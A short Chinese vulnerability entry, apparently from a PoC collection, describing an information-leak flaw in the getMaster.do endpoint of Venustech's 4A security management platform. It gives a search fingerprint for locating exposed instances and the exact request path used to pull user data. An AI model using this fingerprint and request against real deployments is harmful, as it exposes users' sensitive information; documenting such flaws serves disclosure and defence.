 # 启明星辰 4A统一安全管控平台 getMaster.do 信息泄漏漏洞

## 漏洞描述

启明星辰 4A统一安全管控平台 getMaster.do 接口存在信息泄漏漏洞，通过发送特定请求包可以获取用户敏感信息

## 漏洞影响

<a-checkbox checked>启明星辰 4A统一安全管控平台</a-checkbox></br>

## 网络测绘

<a-checkbox checked>web.body="cas/css/ace-part2.min.css"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1691987645140-60c2204f-fdd2-4ca4-b8ab-0b890ae4a9cc.png)

验证POC

```http
/accountApi/getMaster.do
```

![image-20230814124146987](../../../.vuepress/public/img/image-20230814124146987.png)